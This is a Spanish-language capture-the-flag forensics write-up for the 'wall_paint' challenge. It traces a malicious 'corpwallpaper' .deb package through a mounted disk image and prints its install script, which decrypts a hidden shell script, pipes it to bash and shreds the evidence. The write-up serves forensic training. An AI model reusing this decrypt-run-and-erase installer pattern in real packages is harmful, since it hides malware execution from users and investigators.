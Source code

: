 ### c0r0n4CON CTF 2020

##### Challenge: wall_paint

##### Category: Forensics

##### Points: 250

##### Solves: 69/362

##### Description: We recently detected an intrusion in our networks that led many users to be infected with malware. We need to know how the malware got into the users machines and learn the most out of it. Can you lend a hand?


En este reto obtenemos una imagen la cual tras hacer un "*file*" vemos que es:
```
image: DOS/MBR boot sector
```
Analizándola con "fdisk -lu image" obtenemos:
```
Disco image: 10 GiB, 10737418240 bytes, 20971520 sectores
Unidades: sectores de 1 * 512 = 512 bytes
Tamaño de sector (lógico/físico): 512 bytes / 512 bytes
Tamaño de E/S (mínimo/óptimo): 512 bytes / 512 bytes
Tipo de etiqueta de disco: dos
Identificador del disco: 0xcb310dcc

Dispositivo Inicio Comienzo    Final Sectores Tamaño Id Tipo
image1      *          2048 16779263 16777216     8G 83 Linux
image2             16781310 20969471  4188162     2G  5 Extendida
image5             16781312 20969471  4188160     2G 82 Linux swap / Solaris
```

Así que procedemos a montarla. (El valor 1048576 se obtiene de multiplicar el inicio del sector (2048) por el tamaño de bloque (512)).
```
mount -o loop,ro,offset=1048576 image imagen_montada
```


Analizando los archivos recientes del usuario "corpworker" en "*imagen_montada/home/corpworker/.local/share/recently-used.xbel*" obtenemos:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xbel version="1.0"
      xmlns:bookmark="http://www.freedesktop.org/standards/desktop-bookmarks"
      xmlns:mime="http://www.freedesktop.org/standards/shared-mime-info"
>
  <bookmark href="file:///home/corpworker/corpwallpaper_1.0.deb" added="2020-04-03T10:16:28Z" modified="2020-04-03T10:16:28Z" visited="2020-04-03T10:16:29.112909Z">
    <info>
      <metadata owner="http://freedesktop.org">
        <mime:mime-type type="application/vnd.debian.binary-package"/>
        <bookmark:applications>
          <bookmark:application name="Thunderbird" exec="&apos;thunderbird %u&apos;" modified="2020-04-03T10:16:28Z" count="2"/>
        </bookmark:applications>
      </metadata>
    </info>
  </bookmark>
</xbel>
```
Donde nos llama la atención el paquete "/home/corpworker/corpwallpaper_1.0.deb" (el cual ya no está en el directorio del usuario).


Haciendo algunas busquedas de "corpwallpaper_1.0.deb" directamente en la imagen, identificamos algunos correos que hablan de una intrusión y uno que facilita un password para "corpwallpaper_1.0.deb".

![for250_1](https://user-images.githubusercontent.com/38633962/79078655-0ed1d900-7d0a-11ea-8431-62ffa557c12e.png)

Asimismo, identificamos el mail con el fichero adjunto:

![for250_2](https://user-images.githubusercontent.com/38633962/79078661-18f3d780-7d0a-11ea-85ea-0c54a89b7d92.png)

Tras extraerlo y abrirlo, vemos que a parte de descargarse una foto de un gatito de Internet e "instalar" un servicio llamado "wallapaper" en "/usr/bin/wallpaper", también ejecuta lo siguiente:
```bash
#!/bin/bash

set -e

systemctl daemon-reload
systemctl enable wallpaper

echo "Installation password required: "
read -s password

openssl aes-256-cbc -a -salt -d -in /tmp/st.sh -pass pass:$password 2>/dev/null | bash
(shred /tmp/st.sh 2>/dev/null 2>/dev/null && rm /tmp/st.sh 2>/dev/null) || true
(shred /home/*/corpwallpaper_1.0.deb 2>/dev/null && rm /home/*/corpwallpaper_1.0.deb 2>/dev/null) || true
(shred /home/*/*/corpwallpaper_1.0.deb 2>/dev/null && rm /home/*/*/corpwallpaper_1.0.deb 2>/dev/null) || true
(shred /tmp/corpwallpaper_1.0.deb 2>/dev/null && rm /tmp/corpwallpaper_1.0.deb 2>/dev/null) || true
```
Que ejecuta "st.sh" y elimina todos los archivos creados/utilizados.

Así que utilizando openssl con el password obtenido anteriormente en el mail y el archivo "st.sh" del paquete .deb, se obtiene el contenido del script y el flag:
```
flag{ur_1nf3ct3d_m4t3!!}
```




